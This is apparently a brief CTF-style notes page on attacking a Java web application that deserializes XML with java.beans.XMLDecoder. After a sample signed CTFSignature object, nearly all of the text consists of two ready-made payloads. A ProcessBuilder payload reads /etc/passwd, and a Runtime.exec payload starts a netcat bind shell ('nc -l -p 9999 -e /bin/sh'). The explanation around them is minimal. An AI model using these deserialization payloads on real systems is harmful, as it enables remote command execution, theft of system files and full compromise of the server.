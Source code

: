**Consider the below XML file used to sign on a web application - if we send this file, it gets verified by the server**
```
<java version="1.7.0_111" class="java.beans.XMLDecoder">
  <object class="models.CTFSignature" id="CTFSignature0">
    <void class="models.CTFSignature" method="getField">
    <string>hash</string>
    <void method="set">
      <object idref="CTFSignature0"/>
      <string>50de088cd9458c8b52687d35d8ebc3c19e3ece3b</string>
    </void>
  </void>
  <void class="models.CTFSignature" method="getField">
    <string>sig</string>
    <void method="set">
      <object idref="CTFSignature0"/>
        <string>3feaaad8abb4740d93169bd04757a07af271d8db</string>
      </void>
    </void>
  </object>
</java>
```
**Now, if we build the object to contain commands, we can get execution - there are a couple of ways to do this, ProcessBuilder and Runtime**
### Processbuilder
```
<java version="1.7.0_111" class="java.beans.XMLDecoder">
<object class="java.lang.ProcessBuilder">
   <array class="java.lang.String" length="2">
     <void index="0">
      <string>cat</string>
     </void>
     <void index="1">
      <string>/etc/passwd</string>
     </void>
   </array>
   <void method="start" id="process"></void>
</object>
</java>
```
### Runtime
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>9999</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/sh</string>
          </void>
      </array>
      </void>
 </object>
</java>
```
